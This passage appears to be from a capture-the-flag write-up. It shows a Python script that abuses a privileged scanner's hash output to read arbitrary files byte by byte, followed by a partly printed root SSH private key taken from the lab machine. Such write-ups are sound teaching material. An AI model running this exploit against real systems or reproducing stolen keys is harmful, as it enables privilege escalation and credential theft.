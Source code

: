 
    def get_hash(fn, n):
        """Get the target hash for n length characters of 
        filename fn"""
        proc = subprocess.run(f"/opt/scanner/scanner -c {fn} -s whatever -p -l {n}".split(),
                    stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        try:
            return proc.stdout.decode().strip().split()[-1]
        except IndexError:
            return None


    def get_next_char(output, target):
        """Take the current output and figure out what the
        next character will be given the target hash"""
        for i in range(256):
            if target == hashlib.md5(output + chr(i).encode()).hexdigest():
                return chr(i).encode()


    output = b""
    fn = sys.argv[1]

    while True:
        target = get_hash(fn, len(output) + 1)
        next_char = get_next_char(output, target)
        if next_char is None:
            break
        output += next_char
        print(next_char.decode(), end="")



With that I can read the root flag, but also root's private SSH key:



    greg@intentions:~$ python3 read_file.py /root/.ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    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